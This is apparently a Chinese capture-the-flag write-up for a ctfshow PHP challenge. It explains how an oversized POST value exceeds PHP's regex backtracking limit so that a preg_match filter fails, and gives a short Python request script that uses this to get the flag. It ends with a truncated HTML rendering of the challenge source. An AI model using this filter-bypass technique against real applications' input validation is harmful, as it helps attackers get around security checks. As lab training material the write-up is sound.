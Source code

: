 +++

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;
}
```

本题考的是[正则溢出](https://www.laruence.com/2010/06/08/1579.html)

大概意思就是在php中正则表达式进行匹配有一定的限制，超过限制直接返回false

字符串大概为10w长度溢出了

用py打(当然直接复制粘贴也可以，但我浏览器直接卡崩溃了)

```python
import requests
url = "http://90a1cce1-ed4a-4e70-a3dd-9074d2846224.challenge.ctf.show/"
data = {
    'f': 'dotast'*170000+'36Dctfshow'
}
res = requests.post(url=url, data=data)
print(res.text)
```

**(第一次用py脚本做出来题，这样看起来还挺简单的)**

```html
<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php
<br />
<br /></span><span style="color: #FF8000">/*
<br />#&nbsp;-*-&nbsp;coding:&nbsp;utf-8&nbsp;-*-
<br />#&nbsp;@Author:&nbsp;h1xa
<br />#&nbsp;@Date:&nbsp;&nbsp;&nbsp;2020-10-13&nbsp;11:25:09
<br />#&nbsp;@Last&nbsp;Modified&nbsp;by:&nbsp;&nbsp;&nbsp;h1xa
<br />#&nbsp;@Last&nbsp;Modified&nbsp;time:&nbsp;2020-10-13&nbsp;05:19:40
<br />
<br />*/
<br />
<br />
<br /></span><span style="color: #0000BB">error_reporting</span><span style="color: #007700">(</span><span style="color: #0000BB">0</span><span style="color: #007700">);
<br /></span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);
<br />include(</span><span style="color: #DD0000">"flag.php"</span><span style="color: #007700">);
<br />if(isset(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">'f'</span><span style="color: #007700">])){
<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$f&nbsp;</span><span style="color: #007700">=&nbsp;(String)</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">'f'</span><span style="color: #007700">];
<br />
```